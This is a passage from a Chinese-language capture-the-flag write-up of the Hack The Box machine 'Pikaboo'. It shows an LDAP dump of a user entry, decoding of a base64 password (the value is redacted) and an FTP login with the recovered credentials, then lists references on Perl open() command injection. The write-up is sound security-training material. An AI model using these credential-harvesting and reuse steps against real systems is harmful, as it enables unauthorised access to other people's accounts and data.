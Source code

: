 Ldapsearch 转储所有条目

输出很长，但这部分正是我想要的:

```
# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: <HIDDEN>
```

该密码显然是 base64 编码的，因为它在末尾有一个指示符 double ==:

```
www-data@pikaboo:/$ echo "<HIDDEN>" | base64 -d
echo "<HIDDEN>" | base64 -d
<HIDDEN>
```

解码给了我们一个明文密码。让我们尝试使用这些凭据进行 ftp 登录:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/" is the current directory
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx-wx---    2 ftp  ftp  4096 Nov 13 08:47 abilities
drwx-wx---    2 ftp  ftp   4096 May 20 07:01 ability_changelog
drwx-wx---    2 ftp  ftp  4096 May 20 07:01 ability_changelog_prose
drwx-wx---    2 ftp  ftp  4096 May 20 07:01 ability_flavor_text
drwx-wx---    2 ftp  ftp  4096 May 20 07:01 ability_names
```

不出所料，它成功了，我们成功了。没什么可看的，这让我困惑了很长时间。最后，我回头看了看我们找到的 Perl 脚本，围绕它使用的 open 命令搜索了一些漏洞，得到了大量信息:

[https://cheat sheet . haax . fr/Linux-systems/programming-languages/perl](https://cheatsheet.haax.fr/linux-systems/programing-languages/perl/)[https://stack overflow . com/questions/26614348/perl-open-injection-prevention](https://stackoverflow.com/questions/26614348/perl-open-injection-prevention)[https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId = 88890543](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543)[https://research . cs . wisc . edu/mist/software security course/Chapters/3 _ 8 _ 2-Command-injections . pdf](https://research.cs.wisc.edu/mist/SoftwareSecurityCourse/Chapters/3_8_2-Command-Injections.pdf)https://perl-begin . org/topics/security/code-markup-injection
